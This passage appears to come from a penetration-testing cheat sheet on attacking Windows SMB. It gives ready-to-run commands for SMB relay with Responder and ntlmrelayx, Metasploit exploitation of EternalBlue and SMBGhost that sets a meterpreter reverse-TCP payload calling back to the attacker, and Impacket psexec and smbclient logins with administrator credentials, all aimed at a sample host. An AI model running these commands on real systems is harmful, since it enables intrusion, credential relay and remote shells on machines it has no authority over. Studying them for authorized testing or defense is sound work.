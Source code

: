 ### SMB Relay Attacks

SMB relay attacks involve intercepting SMB authentication attempts and relaying them to another host.

```bash
# Using Responder
sudo responder -I eth0 -wrfv

# Using ntlmrelayx
ntlmrelayx.py -t smb://192.168.1.10 -smb2support
```

### Exploiting Known Vulnerabilities

#### EternalBlue (MS17-010)

```bash
# Check for vulnerability
nmap --script smb-vuln-ms17-010 -p 445 192.168.1.10

# Using Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST your_ip
exploit
```

#### SMBGhost (CVE-2020-0796)

```bash
# Check for vulnerability
nmap --script smb-vuln-cve-2020-0796 -p 445 192.168.1.10

# Using Metasploit
use exploit/windows/smb/cve_2020_0796_smbghost
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST your_ip
exploit
```

## Tools and Frameworks

### Impacket

Impacket is a collection of Python classes for working with network protocols, including SMB.

```bash
# Install Impacket
pip install impacket

# Use Impacket's smbclient
python -m impacket.smbclient administrator:password@192.168.1.10

# Use Impacket's psexec
python -m impacket.psexec administrator:password@192.168.1.10
```
